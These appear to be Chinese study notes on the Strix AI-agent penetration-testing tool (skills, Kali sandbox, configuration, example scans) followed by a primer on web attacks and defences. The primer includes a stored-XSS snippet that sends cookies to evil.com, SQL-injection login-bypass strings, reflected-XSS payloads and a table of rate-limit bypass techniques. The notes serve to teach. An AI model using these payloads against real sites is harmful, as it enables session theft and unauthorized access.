| ----------------------------------------- | ------------------------------------------------------------ |
| `penetration-testing-with-strix`          | 针对代码、网址、域名或 IP 地址执行headless scan（可选用本地部署命令行工具或云端托管服务），支持预算上限控制，并读取扫描结果 |
| `managed-pentesting-with-strix`           | 通过 REST 接口操控托管平台 app.strix.ai，无需本地部署 Docker 或配置大模型密钥 |
| `fix-security-vulnerabilities-with-strix` | 对安全检测结果进行分级处理、修复问题根源，重新运行 Strix 验证每一处修复效果 |
| `ci-security-scanning-with-strix`         | 为 GitHub Actions 或任意CI流水线  添加合并请求（PR）安全扫描（支持本地命令行工具或云端托管应用） |
| `application-security-testing`            | 对完整产品开展安全评估：为每项资产选择合适的测试方案，再将所有检测结果整理排序，生成统一修复方案 |
| `web-app-penetration-testing`             | 对线上 Web 应用或预发布站点执行黑盒渗透测试，包含测试范围配置、凭证管理以及多账号访问权限检测 |
| `api-security-testing`                    | 依据 OWASP API 安全十大风险项目，测试 REST/GraphQL 接口；完成基于接口文档的资产枚举、未授权对象访问 (BOLA/IDOR)、权限控制校验 |
| `owasp-top-10-testing`                    | 系统化开展 OWASP Top 10 安全评估，如实记录每一类风险项的检测覆盖情况 |
| `find-security-vulnerabilities-in-code`   | 对代码仓库或工作目录进行白盒安全审计，利用漏洞验证程序确认安全缺陷 |

如果你只想安装某一个skill可以使用：

```bash
npx skills add usestrix/strix --skill penetration-testing-with-strix
```


# 3 Tools

Strix 智能体借助各类专用工具，如同一个真实的渗透测试工程师做的那样。

Strix 在基于 Kali Linux 的 Docker 容器（镜像：`ghcr.io/usestrix/strix-sandbox`）内运行，[容器预装了一整套安全测试工具](https://docs.strix.ai/tools/sandbox)。智能体可通过终端接口调用下述任意工具。

```bash
# https://github.com/orgs/usestrix/packages/container/strix-sandbox/versions
docker pull ghcr.io/usestrix/strix-sandbox:latest
```

所有工具均已完成预配置，开箱即用。智能体会根据待测试的漏洞类型，自动选择合适的工具。

## 3.1 Browser

基于 Playwright 的 Chrome 浏览器用于 Web 应用测试

工作原理：

所有浏览器流量都会自动经过 Caido 代理转发，让 Strix 能够完整查看每一条请求与响应数据。由此可实现：

- 检测客户端漏洞（跨站脚本 XSS、DOM 篡改）
- 执行带身份认证的业务流程（登录、OAuth、多因素认证 MFA）
- 触发大量 JavaScript 驱动的功能模块
- 捕获动态生成的网络请求

**Caido proxy**：Caido 代理，一款 Web 安全测试抓包代理工具

能力：

| 操作     | 说明                                   |
| -------- | -------------------------------------- |
| 页面跳转 | 访问网址、追踪链接、处理重定向         |
| 点击交互 | 操作按钮、超链接、表单控件             |
| 文本输入 | 填写表单、搜索框及各类输入字段         |
| 执行 JS  | 在页面上下文运行自定义 JavaScript 代码 |
| 屏幕截图 | 截取页面可视状态，用于生成报告         |
| 多标签页 | 在多个浏览器标签之间开展测试           |

示例执行流程：

- 智能体启动浏览器并跳转至登录页面
- 填入账号凭证，提交表单
- 代理捕获认证请求报文
- 智能体访问受保护资源页面
- 通过重放修改过 ID 参数的请求，开展不安全的直接对象引用（IDOR）漏洞测试


## 3.2 http proxy

Strix 内置了专为安全测试打造的现代化 HTTP 代理工具 —— [Caido](https://caido.io/)。所有浏览器流量均经过 Caido 转发，使智能体能够完全控制所有请求与响应报文。

能力：

| 功能     | 说明                                         |
| -------- | -------------------------------------------- |
| 请求捕获 | 自动记录全部 HTTP/HTTPS 流量                 |
| 请求重放 | 修改参数后重新发送任意请求                   |
| HTTPQL   | 使用强大的过滤条件，对已捕获流量进行查询检索 |
| 范围管理 | 将测试目标限定于指定域名或路径               |
| 站点地图 | 可视化展示探测发现的攻击面                   |

## 3.3 Terminal

Strix 可访问运行于 Docker 沙箱内部的持久化 Bash 终端。智能体能够使用沙箱内全部工具

| 功能       | 说明                                         |
| ---------- | -------------------------------------------- |
| 持久化状态 | 工作目录与环境变量在多条命令执行期间保持不变 |
| 多会话     | 开启多个并行终端，执行并发任务               |
| 后台任务   | 启动长时间运行的进程且不会造成阻塞           |
| 交互控制   | 响应程序提示、管控正在运行的进程             |


# 4 configuration

通过环境变量或者配置文件对 Strix 进行配置。

**llm configuration**

- STRIX_LLM：配置模型，(e.g., `openai/gpt-5.4`, `anthropic/claude-sonnet-4-6`）
- LLM_API_KEY
- LLM_API_BASE
- LLM_EXTRA_HEADERS：额外的http请求头，格式为：a JSON object (e.g. `{"X-Feature-Key":"value","X-Tenant":"acme"}`). 
- LLM_TIMEOUT：default 300 秒
- STRIX_LLM_MAX_RETRIES：失败后，最大的尝试次数，默认5
- STRIX_REASONING_EFFORT：控制推理模型的思考effort投入。有效值：`none`、`minimal`、`low`、`medium`、`high`、`xhigh`、`max`。quick模式下默认值为 `medium`。
- STRIX_MEMORY_COMPRESSOR_TIMEOUT：context summarization 超时时间，默认30秒


**Dedicated deduplication model**

漏洞发现结果去重是一项开销较低的结构化分类任务。

默认情况下该任务由主模型执行，但你可以将该任务分流至更小、成本更低的模型，且不会影响实际执行测试的智能代理。

- STRIX_DEDUPE_MODEL
- DEDUPE_LLM_API_KEY
- DEDUPE_LLM_API_BASE
- DEDUPE_LLM_EXTRA_HEADERS
- STRIX_DEDUPE_REASONING_EFFORT


**Docker configuration**

- STRIX_IMAGE：sandbox image name，默认：`ghcr.io/usestrix/strix-sandbox:1.3.0`
- DOCKER_HOST：
  - 用于告知docker 客户端（CLI）命令行工具，docker后台守护进程在哪里。
  - 如果你不设置它，Docker 客户端会去找**默认地址**：
    - Linux：`unix:///var/run/docker.sock`（本地的套接字文件）
    - Windows：`npipe:////./pipe/docker_engine`（本地的命名管道）
  - 它的值必须是 **URI（统一资源标识符）** 格式，支持以下几种协议：
    - **`unix://`**：用于本地 Unix 域套接字（仅限 Linux）。
    - **`tcp://`**：用于通过网络连接远程 Docker 主机（这是最关键的用途）。
    - **`fd://`**：用于 systemd 下的套接字激活。
    - **`npipe://`**：用于 Windows 命名管道。
  - **举例：**
    - 本地默认：`unix:///var/run/docker.sock`
    - 连接远程主机（无加密）：`tcp://192.168.1.100:2375`
    - 连接远程主机（TLS加密）：`tcp://192.168.1.100:2376`
    - 使用 `tcp://` 不加任何加密（即 2375 端口）时，网络上任何能连接到该端口的人都能**完全控制**你的 Docker（等同于拿到 root 权限）。**请务必在局域网或安全内网中使用，或使用 TLS 加密（2376 端口）。**
    - TLS加密：**CA 证书 (`ca.pem`)**，**服务器证书与密钥 (`server-cert.pem`, `server-key.pem`)**，**客户端证书与密钥 (`cert.pem`, `key.pem`)**
- STRIX_RUNTIME_BACKEND：默认为docker


**沙箱配置**

- `STRIX_SANDBOX_EXECUTION_TIMEOUT`：沙箱内各项操作的最大执行时长，默认 120秒
- STRIX_SANDBOX_CONNECT_TIMEOUT：连接沙箱容器的超时时间，默认10秒

## 配置文件的位置

Strix 的配置文件存放路径为 `~/.strix/cli‑config.json`。你也可以指定自定义配置文件：

```bash
strix --target ./app --config /path/to/config.json
```

config file format

```json
{
  "env": {
    "STRIX_LLM": "openai/gpt-5.4",
    "LLM_API_KEY": "sk-...",
    "STRIX_REASONING_EFFORT": "high"
  }
}

{
  "env": {
    "STRIX_IMAGE":"ghcr.io/usestrix/strix-sandbox:1.3.0",
    "STRIX_LLM":"deepseek-v4-pro",
    "LLM_API_KEY":"sk-...",
    "OPENAI_BASE_URL": "https://api.deepseek.com"
  }

```


# [skills CLI](https://mintlify.wiki/vercel-labs/skills/introduction)

skills CLI 是一款面向 AI 编码智能体技能的通用包管理器。你可通过它安装、管理以及分享可复用指令集，借助这些指令集，能够在 42 种以上受支持的智能体（Claude code、OpenCode、Codex等）上拓展coding agent的能力。

skills CLI主要面向的skills 平台是：https://www.skills.sh/，在这个平台查找skill工具

**skills命令行工具可自动检测你已安装的编码智能体。若未检测到任何智能体，系统将提示你选择需要安装到哪些智能体上。**

skills可以被安装到两个范围scopes：

| Scope       | Flag      | Location            | Use Case                                      |
| :---------- | :-------- | :------------------ | :-------------------------------------------- |
| **Project** | (default) | `./<agent>/skills/` | Committed with your project, shared with team |
| **Global**  | `-g`      | `~/<agent>/skills/` | Available across all projects                 |


skills命令的安装：

- skills命令

  ```bash
  npm install -g skills
  # skills自动探测电脑中的agent，以安装skills到对应位置
  skills add vercel-labs/agent-skills
  ```

- npx skills，每次都可以使用skills的最新版本，并且不要求全局安装

  ```bash
  npx skills add vercel-labs/agent-skills
  ```


# prompt example

```bash
strix --target http://124.220.19.199:8000/portal --scan-mode quick --config ~/.strix/cli-config.json --instruction "使用 Strix 对该网站执行渗透测试，并汇总输出漏洞结果"

strix --target https://uss.exios.top --scan-mode deep --config /home/qbuntu/.strix/cli-config.json --instruction-file /home/qbuntu/.strix/pentest-instructions.md
```


# 提示词示例

1. 使用 Strix 对该代码仓库执行渗透测试（快速模式，预算 10 美元），并汇总输出漏洞结果。
2. 修复上一次 Strix 扫描产出的所有严重（critical）和高危（high）漏洞，之后重新扫描进行验证。
3. 将 Strix 安全扫描接入到 GitHub Actions，实现对每一条合并请求（PR）执行安全检测。


# 安全理论--------------------

# 1 网络理论

## 1.1 http

HEAD方法**只返回响应头，不返回响应体**。它常用于确认资源是否存在、检查资源状态（如通过`Last-Modified`或`ETag`判断是否更新），而无需传输整个内容，节省带宽。

**OPTIONS** 方法用于获取服务器支持的**HTTP方法**或者查询服务器对特定资源的处理能力，通常用于检查资源的可用性或服务器能力。它在**CORS（跨域资源共享）** 中扮演关键角色，浏览器在发送某些跨域请求（如非简单请求）前，会先自动发送一个OPTIONS请求作为"预检请求"。

TRACE方法主要用于**诊断或调试**，它会回显客户端发送的请求，使客户端能够看到请求在传输过程中可能被修改的内容。**出于安全考虑（如防止跨站跟踪攻击），生产环境通常不建议启用TRACE方法。**

## 1.2 跨域策略

跨域策略（同源策略）限制的**不是“发送请求”和“网络接收”**，而是**“JS代码（发送请求的页面）能否读取到返回结果”**。

针对你的情况，能“看到”返回结果，通常有以下**4种可能**，你可以对照一下你的实际操作：

**1. 你在浏览器开发者工具（Network面板）中看到了结果（最常见）**
如果你是在浏览器的“网络（Network）”选项卡里看到了`b.com`返回的200状态码和响应体，**这不代表跨域成功了**。
浏览器的流程是：**发出请求 → 收到数据包 → 检查CORS头 → 决定是否交给JS**。
Network面板显示的是浏览器底层网卡收到的原始数据，用于调试。如果`b.com`没有返回正确的`Access-Control-Allow-Origin`头，浏览器会立刻在控制台报CORS错误，并且**把你的JS代码拿到的响应对象（Response）置为空或报错**，虽然数据包已经到本地了，但你的JS代码死活拿不到里面的内容。

**2. `b.com` 服务器配置了合法的CORS头**
如果`b.com`的响应头里包含了：
`Access-Control-Allow-Origin: *`（允许所有域名） 或 `Access-Control-Allow-Origin: a.com`（允许你的域名）
那么浏览器就会把数据交给JS，这是**完全合法且被允许的跨域请求**，自然能收到结果。

**3. 这不是 XHR / Fetch 请求，而是“带src属性的资源标签”**
如果你是用`<script src="b.com">`、``、`<link>`等标签发起的请求，**它们从来就不受同源策略限制**（这叫“资源嵌入”）。你看到的结果是正常的。如果是`<script>`标签拿到数据，那就是经典的**JSONP**跨域原理。

**4. 这是“简单请求”（Simple Request）**
对于GET、HEAD、以及特定Content-Type的POST请求，浏览器策略是**“先发请求，后验头”**。也就是说，请求已经发出去并返回结果了，浏览器才去检查`Access-Control-Allow-Origin`。如果头不对，虽然你肉眼看到了数据，但JS的`onerror`或`.catch()`会被触发，**数据被浏览器丢弃**，无法渲染到页面上。

你能看到数据，说明**TCP连接通了，服务器也响应了**。但如果控制台报了`CORS`红字错误，说明浏览器**扣下了这份数据**，拒绝交给你的JavaScript代码。只有服务器带上正确的CORS响应头，你的JS才算真正“收到”并允许使用它。


# 2 限流绕过

限流绕过指攻击者通过技术手段规避服务端设置的请求频率限制，从而在超出系统允许的配额下继续发送请求的一类攻击行为。

限流本身是一种用于防止暴力破解、撞库、爬取、DDoS 和资源滥用的安全机制；

当它的实现存在层位错配或标识维度单一时，攻击者可利用这些缝隙把"配额墙"绕开

| 绕过手法                    | 原理                                                         | 示例                                                         | 防御方向                                         |
| --------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------ |
| **IP 轮换**                 | 利用住宅代理池、云出口节点不断切换源 IP，使基于 IP 的计数器永远不达阈值 | 通过代理池轮换 IP 访问 `/api/login`，每个 IP 配额独立        | 多维身份识别（IP+账户+令牌联合），源站也独立限流 |
| **HTTP 头伪造**             | 应用盲目信任 `X-Forwarded-For`、`X-Real-IP` 等头部识别客户端，攻击者伪造该头 | 每次请求改写 `X-Forwarded-For: 1.1.1.N` 绕过 IP 限流         | 仅信任已知代理链路重写的头，边缘覆盖该头         |
| **路径变体**                | 限流按 URL 路径做键，而路由规范化在限流之后，`/signup`、`/SignUp`、`/sign-up`、`/api/v3/sign-up` 被当作不同键 | 用大小写、尾斜杠、URL 编码变体发请求                         | 限流前做规范化，按业务端点而非原始 URL 计数      |
| **HTTP 方法变体**           | 限流只针对 POST，而同一接口也接受 PUT/GET/PATCH 产生相同效果 | 用 PUT 替代 POST 提交登录表单                                | 按"操作语义"而非"方法+路径"做键                  |
| **空字符与控制字符注入**    | 限流器与应用规范化逻辑不一致，在参数里塞 `%00`、`%0a`、`%0d`、`%09` 使键值看起来不同 | `code=1234%0a` 生成不同的限流键，而应用 trim 后照常验证      | 限流键基于规范化后的值，统一编码处理             |
| **会话/令牌轮换**           | 限流按会话 ID 或 JWT 计数，攻击者不断重新登录或更换令牌重置计数 | Burp Intruder Pitchfork 模式轮换测试凭据与 session token     | 锁定维度下沉到账户本身，而非会话                 |
| **HTTP/2 多路复用**         | 限流按 TCP 连接计数，一条 HTTP/2 连接可复用成百上千个请求流  | 用 Turbo Intruder 在一条连接上发 100 次 OTP 猜测             | 应用层限流器按业务请求而非连接计数               |
| **GraphQL 别名 / 批量请求** | 限流按 HTTP 请求数计数，GraphQL 别名与批量接口可在一个请求里塞多次业务调用 | 单个 mutation 用别名 `a: verify(code:"111111")`、`b: verify(code:"222222")` 同时试多个 OTP | 在 resolver/operation 层做限流，而非 HTTP 层     |
| **REST 批量端点**           | `/v2/batch` 接受数组，限流只覆盖旧端点                       | 单次请求 body 里塞多条 `login` 调用                          | 批量接口按内部操作数累计配额                     |
| **滑动窗口卡点**            | 固定窗口限流在窗口边界重置，响应头泄露 reset 时间，卡点可逼近 2 倍配额 | 窗口结束前发满配额、结束后立即再发一满轮                     | 采用滑动窗口、令牌桶等无硬重置边界的算法         |
| **WebSocket / gRPC 流**     | 边缘只检查握手请求，不检查建立后的消息流                     | 一条 WebSocket 连接里发 1000 次 OTP 猜测                     | 应用层针对每条消息单独限流                       |
| **CDN PoP 分片计数**        | CDN 计数器按数据中心分片而非全局，每个 PoP 一份配额          | 走不同 PoP 的代理发请求，各 PoP 配额独立                     | 源站维护全局计数器，边缘仅做防御纵深             |
| **账户/身份分散**           | 按账户限流时，攻击者注册大量账户或轮换 API key 分摊配额      | 用免费层多账户、泄露 key 池分发请求                          | 渠道维度（注册、设备指纹）联合识别               |
| **竞态条件**                | 限流计数器自增与业务校验之间存在时间差，并发请求全部命中未增计数前的状态 | 登录限流前同时发若干请求，全部视为"第 N 次"                  | 用原子操作/锁保证计数与校验的事务一致性          |

# 3 DOS

**DoS（拒绝服务攻击）** 是指攻击者通过**单一来源**（一台机器或一个网络连接）向目标服务器发送大量恶意请求或构造特殊数据包，耗尽目标的资源（带宽、CPU、内存、连接数等），导致正常用户无法访问服务。

简单说：**一个人不停地骚扰客服电话，让真正的客户打不进来。**

## 3.1 流量型攻击（Flood）

直接淹没目标的带宽或系统资源。

- **Ping Flood（ICMP Flood）**
  向目标发送大量 ICMP Echo 请求（ping），占用其带宽和 CPU 处理能力。
  早期很有效，现在一般防火墙可限制 ICMP 速率。
- **UDP Flood**
  发送大量 UDP 数据包到随机端口，目标主机需要检查端口是否有服务监听，并回复 ICMP 不可达，消耗资源。

## 3.2 协议型攻击（利用协议缺陷）

利用 TCP/IP 协议栈的弱点，消耗连接资源。

- **SYN Flood**
  攻击者发送大量 TCP SYN 包请求建立连接，但不完成三次握手（不回复最后的 ACK），导致服务器维护大量半开连接，耗尽连接表。
  这是最经典的 DoS 攻击之一，至今仍被使用。
- **Ping of Death**
  发送超过最大允许尺寸（65535 字节）的 ICMP 数据包，导致旧系统崩溃或重启。
  现代系统已修补此漏洞，属于历史攻击。
- **Teardrop**
  发送重叠或偏移错误的分片包，导致旧系统在重组分片时崩溃。
  同样已基本失效。

## 3.3 应用层攻击

针对特定应用程序或服务，模拟正常请求但消耗更多资源。

- **Slowloris**
  攻击者与目标 Web 服务器建立多个连接，但每个连接只缓慢地发送 HTTP 头部（每隔一段时间发一个 header 行），保持连接不结束，占满服务器的并发连接数，导致正常用户无法建立新连接。
  这种攻击只需一台低带宽的机器就能对未做防护的服务器造成严重影响。
- **HTTP Flood（单机版）**
  发送大量 HTTP GET 或 POST 请求，消耗 Web 服务器和数据库资源。如果是单一来源，可视为 DoS；如果多来源，则为 DDoS。


**SYN Flood 攻击过程：**

1. 攻击者向目标服务器发送大量 SYN 包，源 IP 是伪造的（不存在的地址）。
2. 服务器收到 SYN 后，回复 SYN+ACK，并分配资源记录这个半开连接。
3. 由于源 IP 是伪造的，服务器永远等不到最后的 ACK，半开连接会保持一段时间（通常几十秒到几分钟）。
4. 当半开连接数量达到上限，服务器无法接受新的 TCP 连接，正常用户无法访问。

## 3.4 DoS 和 DDoS 的区别

| 特性     | DoS                              | DDoS                               |
| :------- | :------------------------------- | :--------------------------------- |
| 攻击来源 | 单一来源（一台主机/一个IP）      | 多个来源（僵尸网络，成千上万设备） |
| 流量规模 | 相对较小，受限于单机带宽         | 极大，可达 Tbps 级别               |
| 防御难度 | 较容易通过封禁 IP、限流解决      | 难，因为来源分散，难以区分         |
| 典型例子 | Ping of Death、SYN Flood（单机） | 僵尸网络发起的 SYN Flood、DNS 放大 |

## 3.5 DDOS

**DDoS（Distributed Denial of Service，分布式拒绝服务攻击）**

攻击者利用大量被入侵的设备（电脑、服务器、IoT 设备等，组成“僵尸网络”）同时向目标发起请求，使目标的带宽、CPU、内存、连接数等资源被耗尽，无法响应正常用户的请求。

# 4 XSS

跨站脚本攻击（Cross-Site Scripting）

攻击者通过在网页中注入恶意脚本，当其他用户访问该页面时，浏览器会执行这些脚本，从而窃取用户信息、劫持会话或执行未授权操作。

主要危害：窃取 Cookie、会话劫持、篡改页面

## 反射性XSS

- 恶意脚本通过 URL、表单等一次性传入，服务器直接将其“反射”回页面。
- 通常需要诱导用户点击恶意链接。

正常链接：`https://example.com/search?q=苹果`

用户点击后，服务器正常返回的html是：

```html
你搜索的是：苹果
```

攻击者构造的恶意链接：`https://example.com/search?q=<script>alert(document.cookie)</script>`

如果服务没有对q后面的内容进行处理，直接返回对应的html，浏览器直接拿到这个html，直接执行解析：

```html
你搜索的是：<script>alert(document.cookie)</script>
```

浏览器就会执行这段脚本，弹出用户的 Cookie。这样的逻辑导致攻击者拿到了用户的信息，拿到用户信息后，如果恶意脚本中掺杂其他恶意逻辑，就可能对用户信息进行窃取等。

## 存储型 XSS

- 恶意脚本被保存到服务器（如评论、留言、昵称等），所有访问相关页面的用户都会中招。
- 危害最大，影响范围广。

攻击者在网站的评论框中输入：

```html
这篇文章真好！<script>
fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

如果网站直接保存并直接展示这段内容，那么任何打开该页面的用户都会执行这个脚本，把他们的 Cookie 发送到攻击者的服务器。

甚至可以使用更隐蔽的方式，比如用图片标签的事件属性：

```html

```

只要图片加载失败（`src="x"` 必然失败），就会执行 `onerror` 中的代码。

**危害**：所有访问该页面的用户都会中招，可能造成大规模 Cookie 泄露、会话劫持。


## DOM 型 XSS

- 不经过服务器，完全发生在浏览器端。
- 页面中的 JavaScript 读取了用户可控的内容，并写入 DOM 时未做处理，导致脚本执行。

**场景**：页面 JavaScript 会从 URL 中读取某些内容，并动态写入网页。

例如，页面中有这样的代码：

```javascript
document.getElementById('message').innerHTML = location.hash.substring(1);
```

它会从 URL 的 `#` 后面取出内容，直接放入 HTML。

攻击者构造链接：

```text
https://example.com/page#
```

当用户打开这个链接时，`location.hash` 是 `#`，脚本把它作为 HTML 写入页面，触发弹窗。

这种攻击不经过服务器，完全在浏览器端发生，因此有时更难以被 WAF 或服务端过滤发现。

## 防御手段

- 核心的Cookie 字段使用**HttpOnly**（HttpOnly会限制js 代码（document.cookie）访问httpOnly修饰的部分cookie字段）
- **Secure 与 SameSite**：强制HTTPS传输，并限制第三方站点携带Cookie，防止网络嗅探和CSRF。

# 5 CSRF

**CSRF（Cross-Site Request Forgery，跨站请求伪造）**，也称为XSRF。

**核心：攻击者并不需要窃取你的 身份信息（Cookie等），而是借用你的浏览器，以你的身份发起请求。**


CSRF 攻击利用的是**浏览器自动附带的任何认证信息**，包括：

- Cookie（最常见）
- HTTP Basic Auth 缓存
- TLS 客户端证书（mTLS）
- Windows 集成认证（NTLM/Kerberos）
- URL 中的会话 ID
- 浏览器自动填充的认证数据（边缘情况）

而防御 CSRF 的关键在于：**确保敏感请求中的认证信息不能仅由浏览器自动附加**，必须由页面脚本显式提供（如 CSRF Token、自定义请求头），并结合 SameSite Cookie、Origin 验证等机制。


CSRF 攻击的原理与流程：

1. 用户登录了受信任的网站 A（如 `bank.com`），浏览器保存了会话 Cookie。
2. 用户在没有登出 A 的情况下，访问了恶意网站 B（如 `evil.com`）。
3. 网站 B 中包含向 A 发起请求的代码（比如图片、表单、脚本）。
4. 浏览器加载 B 时，自动向 A 发送请求，并携带 A 的 Cookie（是否自动携带取决于**Cookie 的 `SameSite` 属性**）。
5. A 网站收到请求，认为是用户本人操作，执行了相应动作（转账、改密码等）。

关键点：

- 攻击者无法直接读取 A 的 Cookie（有同源策略限制），但可以通过诱导浏览器发送请求，让 Cookie 自动附加。
- 攻击者无法看到响应内容（因为同源策略），但只要请求能触发操作即可，比如转账。


网站B在向网站A发起请求时，是否自动携带网站A的Cookie，取决于Cookie的SameSite属性。

- 如果网站A Cookie 没有设置 `SameSite` 属性，或者设置为 `SameSite=None`（且 Secure），那么浏览器在跨站请求时**会自动携带**这些 Cookie。

- 从 2020 年开始，Chrome 等主流浏览器将 Cookie 的默认 `SameSite` 值改为 `Lax`。
- `SameSite=Lax` 的含义是：跨站请求中，只有**顶级导航（最外层、主窗口，非页面中的iframe）的 GET 请求**会携带 Cookie，而其他跨站请求（如 ``、`<script>`、`fetch`、表单 POST）**不会携带**。

## 防御手段

1. **CSRF Token**
   服务器生成一个随机 Token，嵌入表单或请求头中，提交时验证。攻击者无法获取这个 Token，因此无法构造有效请求。
2. **SameSite Cookie 属性**
   设置 Cookie 的 `SameSite=Strict` 或 `SameSite=Lax`，限制跨站请求时携带 Cookie。
3. **验证 Referer / Origin 头**
   检查请求来源是否为本站域名。但有些浏览器或隐私设置会隐藏 Referer，可能影响正常用户。
4. **使用 POST 而非 GET 处理敏感操作**
   虽然不能完全防御，但可以阻止通过 ``、`<link>` 等简单方式发起的 GET 请求。
5. **双重提交 Cookie**
   将 Token 同时放在 Cookie 和请求参数中，服务器验证两者是否一致。
6. **要求用户重新认证**
   敏感操作（如转账、修改密码）要求输入验证码或二次密码，增加攻击难度


## 新手段

### 利用顶级导航的 GET 请求

`SameSite=Lax` 允许在**顶级导航 GET 请求**中携带 Cookie。因此，如果目标网站对敏感操作错误地使用了 GET 方法，攻击者只需诱导用户点击一个链接即可触发 CSRF


### 针对 `SameSite=None` 的目标站点

许多网站为了支持第三方集成（如嵌入支付、广告、社交分享），会将 Cookie 的 `SameSite` 设置为 `None`，同时必须加上 `Secure` 属性（仅 HTTPS 下发送）。对于这类站点，**经典 CSRF 攻击仍然完全有效**，因为 `SameSite=None` 允许所有跨站请求携带 Cookie，包括子资源请求、表单 POST、fetch 等。


### 利用 CORS 配置错误

如果目标网站的 API 同时满足以下条件：

- 允许跨域请求（CORS 响应头 `Access-Control-Allow-Origin` 为攻击者域名或 `*`）
- 允许携带凭据（`Access-Control-Allow-Credentials: true`）
- Cookie 的 `SameSite` 为 `None` 或未设置（旧浏览器）

那么攻击者可以直接在自己的网页中使用 `fetch` 或 `XMLHttpRequest` 发起跨域请求，并读取响应数据。这已经不仅仅是 CSRF，而是升级为 **跨站请求伪造 + 数据窃取**。


### 滥用 `window.name`、`postMessage` 等跨窗口通信

攻击者可以通过 `window.open` 打开目标网站，然后利用 `window.name` 或 `postMessage` 与目标窗口通信，间接诱导目标窗口执行操作。虽然不直接属于 CSRF，但可配合其他漏洞达成类似效果。

**例子：**
攻击者打开一个指向 `bank.com` 的窗口，然后通过 `postMessage` 向该窗口发送指令，如果目标页面有监听消息的代码（可能由 XSS 注入或应用自身功能），则可能执行敏感操作。

### 结合 XSS 绕过 CSRF 防护

如果目标网站存在 XSS 漏洞，攻击者可以直接在目标页面中执行脚本，读取 **CSRF Token**（具体解释见：防御手段1，这个token是用来防止csrf的） 并提交请求，从而完全绕过 SameSite 等浏览器限制。这种情况下，CSRF 防护已经失效，因为攻击者已经控制了同源上下文。

真实流程：

1. **植入 XSS 脚本**：攻击者在目标页面注入恶意 JavaScript。
2. **就地读取**：由于脚本运行在目标网站的同源环境下，它直接用 `document.querySelector('input[name="csrf_token"]').value` 读取到表单里的 Token。
3. **就地发请求**：脚本接着使用 `fetch` 或 `XMLHttpRequest`，**直接从受害者浏览器**向目标网站的后端接口发送转账、改密等请求。
   - 请求体里带上刚读到的合法 Token。
   - 浏览器会自动附带上该网站的 Cookie（包含登录态）。
4. **攻击成功**：服务器收到请求，发现 Token 正确，且 Cookie 对应的用户已登录，于是执行操作

### 利用子域接管或同站子域

`SameSite` 的“同站”定义是基于**可注册域（eTLD+1）**，而不是同源。因此，如果攻击者能够控制目标域的一个子域（例如 `attacker.bank.com`），那么从该子域向 `bank.com` 发起的请求被视为**同站请求**，会携带 `SameSite=Lax` 甚至 `Strict` 的 Cookie。这可以通过子域接管、DNS 劫持或内部恶意子域实现。

**例子：**
如果 `blog.bank.com` 的子域因过期被攻击者接管，攻击者可以在该子域上放置页面，向 `bank.com` 发起请求，浏览器会携带 [bank.com](https://bank.com/) 的 Cookie（因为同站）。


# 6 SQL注入

**SQL注入（SQL Injection，简称SQLi）** 是一种代码注入技术。它发生在应用程序**将用户输入的数据，错误地当作SQL代码来执行**的时候。

其核心在于，Web应用在构建SQL查询时，通常会**将用户输入直接拼接到SQL语句的字符串中**。正常情况下，用户输入应被视为“数据”。但如果程序未对输入进行有效验证或过滤，攻击者就能通过精心构造的输入，插入额外的SQL命令，将“数据”篡改为“代码”并被执行

```sql
SELECT * FROM users WHERE username = '输入的用户名' AND password = '输入的密码'
```

如果攻击者在“用户名”框里输入 `admin' --`，`--`为注释符，拼接后的SQL语句会变成：

```mysql
SELECT * FROM users WHERE username = 'admin' --' AND password = '...'
```

这里的 `--` 是SQL中的注释符，它让后续的密码检查部分全部失效。结果就是，攻击者无需密码，就能以 `admin` 身份登录系统。另一个常见手法是输入 `' OR '1'='1`，这会让 `WHERE` 条件永远为真，从而返回所有用户数据。


防御SQL注入最有效的方法是**参数化查询（Parameterized Query）**，也称为预处理语句（Prepared Statements）。

- **核心思想**：将SQL语句的“结构”与“数据”分离开。先让数据库“编译”好SQL语句的结构，再将用户输入纯粹作为“数据”传递进去。这样，无论用户输入什么，都不会被当作SQL代码来执行，从根本上杜绝了注入风险。


**常见的注入漏洞**包括：

- **SQL 注入**：将恶意 SQL 语句注入到数据库查询中。
- **命令注入**：将恶意系统命令注入到 shell 执行中。
- **LDAP 注入**：将恶意 LDAP 查询注入到目录服务查询中。
- **模板注入（SSTI）**：将恶意模板表达式注入到模板引擎中。
- **XPath 注入**：将恶意 XPath 表达式注入到 XML 查询中。
- **文件包含漏洞**：将恶意文件路径或文件内容注入到文件加载机制中。


# 7 [RCE](https://cloud.tencent.com/developer/article/2590374)

远程代码执行（Remote Code Execution，简称RCE）

RCE漏洞的核心特征是攻击者可以在未授权的情况下，通过网络连接在目标系统上执行任意代码和命令。

RCE漏洞通常出现在以下几种情况：

1.  **命令注入（Command Execution）**：应用程序将用户输入直接传递给系统命令执行函数，如PHP中的`system()`、`exec()`，Python中的`os.system()`、`subprocess.call()`等 
2.  **代码注入（Code Execution）**：应用程序将用户输入作为代码的一部分进行执行，如PHP中的`eval()`函数，JavaScript中的`eval()`函数等 
3.  **不安全的反序列化**：当应用程序反序列化用户提供的数据时，如果没有进行适当的验证和过滤，可能导致任意代码执行 
4.  **不安全的动态加载**：应用程序动态加载用户指定的模块或库时，可能导致加载恶意代码


| 漏洞类型 | 攻击目标                 | 核心效果                        | 攻击范围     |
| -------- | ------------------------ | ------------------------------- | ------------ |
| RCE漏洞  | 目标系统（服务器、设备） | 执行系统命令/代码，控制整个系统 | 全系统覆盖   |
| SQL注入  | 数据库                   | 窃取、篡改、删除数据库数据      | 仅数据库层面 |
| XSS漏洞  | 用户浏览器               | 窃取用户Cookie、伪造用户操作    | 仅用户层面   |

# 8 越权

越权漏洞是指攻击者通过绕过权限控制机制，访问超出其权限范围的资源或功能。

越权漏洞的形成主要源于以下几个方面：

- 权限验证不足：系统在处理用户请求时，未对用户的身份和权限进行充分验证，导致用户可以访问或操作超出其权限范围的资源。
- 前端控制权限：权限控制逻辑仅在客户端实现（如隐藏按钮或链接），而未在服务器端进行严格校验，攻击者可通过修改请求绕过限制。
- 参数可控性：系统通过用户可控的参数（如URL参数、表单数据、Cookie等）来判断访问对象，未对参数的合法性进行检查。
- 业务逻辑缺陷：开发人员在设计业务流程时，未充分考虑权限边界，导致攻击者通过逻辑漏洞实现越权。
- 会话管理不当：服务器未正确使用会话机制（如Session）来绑定用户身份和权限，导致权限混淆或被绕过。

 

典型的攻击方式：

